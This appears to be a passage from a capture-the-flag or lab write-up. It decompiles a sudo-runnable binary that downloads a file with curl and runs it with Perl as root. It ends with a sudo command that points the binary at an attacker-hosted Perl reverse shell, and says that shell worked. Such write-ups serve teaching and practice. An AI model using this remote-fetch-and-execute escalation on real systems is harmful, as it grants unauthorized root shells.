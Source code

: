 ```cpp
  puts("Running... ");
  __stream = fopen(*(char **)(param_2 + 0x10),"wb");
  uVar3 = curl_easy_init();
  curl_easy_setopt(uVar3,0x2712,*(undefined8 *)(param_2 + 8));
  curl_easy_setopt(uVar3,0x2711,__stream);
  curl_easy_setopt(uVar3,0x2d,1);
  iVar2 = curl_easy_perform(uVar3);
  if (iVar2 == 0) {
    iVar2 = snprintf((char *)0x0,0,"%s",*(undefined8 *)(param_2 + 0x10));
    __s = (char *)malloc((long)iVar2 + 1);
    snprintf(__s,(long)iVar2 + 1,"%s",*(undefined8 *)(param_2 + 0x10));
    iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
    __s_00 = (char *)malloc((long)iVar2 + 1);
    snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
    fclose(__stream);
    curl_easy_cleanup(uVar3);
    setuid(0);
    system(__s_00);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

- This is the main function of a C++ program that seems to be downloading a file specified by the first argument passed to the program, using the curl library, and then executing the downloaded file with a system call to the Perl interpreter.

- The program first checks if the number of arguments passed to it is 3 (`argc != 3`), and if not, it prints "Exiting..." and exits the program.

- Next, it checks if the user running the program has root privileges (`getuid() != 0`), and if not, it prints "Exiting..." and exits the program.

- Then, it checks if the second argument passed to the program is equal to the string "lDnxUysaQn" (`strcmp(argv[2], "lDnxUysaQn") != 0`), and if not, it prints "Exiting..." and exits the program.

- If all checks pass, the program prints "Running..." and starts downloading the file specified by the first argument. The file is opened and set as the destination for the downloaded data with curl functions `curl_easy_init()`, `curl_easy_setopt()`, and `curl_easy_perform()`. The program then constructs the file path and calls the Perl interpreter to run the file. Finally, it removes the file "lDnxUysaQn".

- Therefore, the final payload should be:

```bash
sudo /usr/bin/binary your_server_hosting_rev_perl_shell lDnxUysaQn
```

- After some trial and error post `hack-tools` `perl` reverse-shell there is success with the below shell:
	- `perl.pl`
